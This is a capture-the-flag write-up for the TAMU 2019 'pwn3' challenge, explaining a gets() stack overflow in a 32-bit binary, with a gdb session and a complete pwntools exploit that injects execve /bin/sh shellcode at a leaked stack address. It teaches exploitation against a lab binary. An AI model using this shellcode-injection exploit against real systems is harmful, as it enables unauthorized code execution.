


# Tamu 2019 Pwn 3

This was done on `Ubuntu 20.04.4 LTS`.

Let's take a look at the binary:



So we are dealing with a 32 bit binary. When we run it, it prints out what looks like a stack address and prompts us for input. When we take a look at the main function in Ghidra, we see this:




Looking through the main function, the most important thing here is that it calls the `echo` function. Let's take a look at that function in Ghidra:


So we can see that this function prints the address of the char buffer `input`, then calls `gets` with `input` as an argument. This is a bug since `gets` doesn't restrict how much data it scans in, we get an overflow. With this we can overwrite the return address and get code execution. The question is now what do we call? There aren't any functions that will either print the flag or give us a shell like in some of the previous challenges. We will instead be using shellcode.

Shellcode is essentially just precompiled code that we can inject into a binary's memory, and if we redirect code execution to it it will run. It will need to match the architecture, in this case will be `Linux/x86`. Whenever I need just generic shellcode I typically grab it from http://shell-storm.org/shellcode/ (or you could just google for shellcode, or make it yourself which we will cover later). I'll be using the `Linux/x86 - execve /bin/sh shellcode - 23 bytes` shellcode by `Hamza Megahed` found at `http://shell-storm.org/shellcode/files/shellcode-827.php`. The shellcode I'm using will just pop a shell for us when we run it.

Now we can inject it into memory, however we need to deal with something called ASLR (Address Space Layout Randomization). This is a binary mitigation (a mechanism made to make pwning harder). What it does is it randomizes all of the addresses for various memory regions, so every time the binary runs we don't know where things are in memory. While the addresses are random, the offsets between things in the same memory region remain the same. So if we just leak a single address from a memory region that we know what it is, since the offsets are the same we can figure out the address of anything else in the memory region.

This also applies to where our shellocde is stored in memory, which we need to know in order to call it. Luckily for us, the address printed is the start of our input on the stack. So we can just take that address and overwrite the return address with it, to call our shellcode.

Let's use gdb to see how much space we have between the start of our input and the return address:

```
gef➤  disas echo
Dump of assembler code for function echo:
   0x0000059d <+0>:	push   ebp
   0x0000059e <+1>:	mov    ebp,esp
   0x000005a0 <+3>:	push   ebx
   0x000005a1 <+4>:	sub    esp,0x134
   0x000005a7 <+10>:	call   0x4a0 <__x86.get_pc_thunk.bx>
   0x000005ac <+15>:	add    ebx,0x1a20
   0x000005b2 <+21>:	sub    esp,0x8
   0x000005b5 <+24>:	lea    eax,[ebp-0x12a]
   0x000005bb <+30>:	push   eax
   0x000005bc <+31>:	lea    eax,[ebx-0x191c]
   0x000005c2 <+37>:	push   eax
   0x000005c3 <+38>:	call   0x410 <printf@plt>
   0x000005c8 <+43>:	add    esp,0x10
   0x000005cb <+46>:	sub    esp,0xc
   0x000005ce <+49>:	lea    eax,[ebp-0x12a]
   0x000005d4 <+55>:	push   eax
   0x000005d5 <+56>:	call   0x420 <gets@plt>
   0x000005da <+61>:	add    esp,0x10
   0x000005dd <+64>:	nop
   0x000005de <+65>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x000005e1 <+68>:	leave  
   0x000005e2 <+69>:	ret    
End of assembler dump.
gef➤  b *echo+61
Breakpoint 1 at 0x5da
gef➤  r
Starting program: /Hackery/pod/modules/bof_shellcode/tamu19_pwn3/pwn3 
Take this, you might need it on your journey 0xffffcf3e!
15935728
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffffcf3e  →  "15935728"
$ebx   : 0x56556fcc  →  <_GLOBAL_OFFSET_TABLE_+0> aam 0x1e
$ecx   : 0xf7faf5c0  →  0xfbad2288
$edx   : 0xf7fb089c  →  0x00000000
$esp   : 0xffffcf20  →  0xffffcf3e  →  "15935728"
$ebp   : 0xffffd068  →  0xffffd078  →  0x00000000
$esi   : 0xf7faf000  →  0x001d7d6c ("l}"?)
$edi   : 0x0       
$eip   : 0x565555da  →  <echo+61> add esp, 0x10
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
───────────────────────────────────────────────────────────────────── stack ────
0xffffcf20│+0x0000: 0xffffcf3e  →  "15935728"	 ← $esp
0xffffcf24│+0x0004: 0xffffcf3e  →  "15935728"
0xffffcf28│+0x0008: 0xffffcf4c  →  0x00000000
0xffffcf2c│+0x000c: 0x565555ac  →  <echo+15> add ebx, 0x1a20
0xffffcf30│+0x0010: 0x00000000
0xffffcf34│+0x0014: 0x00000000
0xffffcf38│+0x0018: 0x00000000
0xffffcf3c│+0x001c: 0x35310000
─────────────────────────────────────────────────────────────── code:x86:32 ────
   0x565555ce <echo+49>        lea    eax, [ebp-0x12a]
   0x565555d4 <echo+55>        push   eax
   0x565555d5 <echo+56>        call   0x56555420 <gets@plt>
 → 0x565555da <echo+61>        add    esp, 0x10
   0x565555dd <echo+64>        nop    
   0x565555de <echo+65>        mov    ebx, DWORD PTR [ebp-0x4]
   0x565555e1 <echo+68>        leave  
   0x565555e2 <echo+69>        ret    
   0x565555e3 <main+0>         lea    ecx, [esp+0x4]
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "pwn3", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x565555da → echo()
[#1] 0x5655561a → main()
────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x565555da in echo ()
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[heap]'(0x56558000-0x5657a000), permission=rwx
  0x56558160 - 0x56558168  →   "15935728" 
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rwx
  0xffffcf3e - 0xffffcf46  →   "15935728" 
gef➤  info frame
Stack level 0, frame at 0xffffd070:
 eip = 0x565555da in echo; saved eip = 0x5655561a
 called by frame at 0xffffd090
 Arglist at 0xffffd068, args: 
 Locals at 0xffffd068, Previous frame's sp is 0xffffd070
 Saved registers:
  ebx at 0xffffd064, ebp at 0xffffd068, eip at 0xffffd06c
```  

Just a bit of math:


We can also see this offset via looking at the stack layout, and seeing that `input` is stored at offset `0x12e` (although I've noticed doing ghidra on occasion will get this wrong):


So the space between the start of our input and the return address is `0x12e` bytes. This makes sense since the char array which holds our input is `294` bytes large, and there are two saved register values (ebx and ebp) on the stack in between our input and the saved return address each `4` bytes a piece (`294 + 4 + 4 = 0x12e`). With all of this, we have all we need to write the exploit:

```
from pwn import *

target = process('./pwn3')

# Print out the text, up to the address of the start of our input
print(target.recvuntil(b"journey "))

# Scan in the rest of the line
leak = target.recvline()

# Strip away the characters not part of our address
shellcodeAdr = int(leak.strip(b"!\n"), 16)

# Make the payload
payload = b""
# Our shellcode from: http://shell-storm.org/shellcode/files/shellcode-827.php
payload += b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
# Pad the rest of the space to the return address with zeroes
payload += b"0"*(0x12e - len(payload))
# Overwrite the return address with the leaked address which points to the start of our shellcode
payload += p32(shellcodeAdr)

# Send the payload
target.sendline(payload)

# Drop to an interactive shell to use our newly popped shell
target.interactive()
```

When we run it:


Just like that, we popped a shell!
